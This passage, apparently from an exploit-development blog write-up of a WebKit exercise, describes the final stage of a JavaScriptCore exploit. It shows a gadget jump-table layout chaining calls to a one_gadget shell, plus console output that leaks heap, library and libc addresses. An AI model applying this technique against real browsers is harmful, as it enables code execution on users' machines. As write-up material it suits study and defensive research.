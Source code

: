 One takeaway from this section is that `libJavaScriptCore` is over 12mb of executable code, and this means your bigger problem is figuring what to look for as opposed to finding it. With that much code, you have an embarrassment of useful gadgets. In general, it made me curious as to the practical utility of fancy gadget finders on larger binaries (at least in case where the payloads don’t need to be dynamically generated).

In any case, we now have all the pieces we need to trigger and land our exploit.

## Putting it all together

To finish this guy off, we need to construct our pseudo jump table. We know we enter into our chain with a `call [rax+0x48]`, so that will be our first gadget, then we look at the offset of the call to determine the next one. This gives us a layout like this:

```text
       +------------------+
rax -> |0xdeadbeefdeadbeef|
       +------------------+
       |       ...        |
       +------------------+
+0x48  |     zero r8      | <- first call, ends in call [rax+0xf8]
       +------------------+
       |       ...        |
       +------------------+
+0x60  |    one gadget    | <- third call, gets us our shell
       +------------------+
       |       ...        |
       +------------------+
+0xf8  |    write stack   | <- second call, ends in call [rax+0x60]
       +------------------+
```

We construct this array using normal JS, then just chase pointers from leaks we have until we find the array. In my implementation I just used a magic 8 byte constant which I searched for, effectively performing a big `memmem()` on the heap. Once it’s all lined up, the dominoes fall and `one_gadget` gives us our shell :)

```text
x@webkit:~/babys-first-webkit$ ./jsc zildjian.js
setting up ghetto_memcpy()...
done:
function () {
    [native code]
}

setting up read primitives...
done.

leaking string addr...
string @ 0x00007feac5b96814

leaking jsc base...
reading @ 0x00007feac5b96060
libjsc .data leak: 0x00007feaca218f28
libjsc .text @ 0x00007feac95e8000
libc @ 0x00007feac6496000
one gadget @ 0x00007feac64d7c22

leaking butterfly arena...
reading @ 0x00007feac5b95be8
buttefly arena leak: 0x00007fea8539eaa0

searching for butterfly in butterfly arena...
butterfly search base: 0x00007fea853a8000
found butterfly @ 0x00007fea853a85f8

```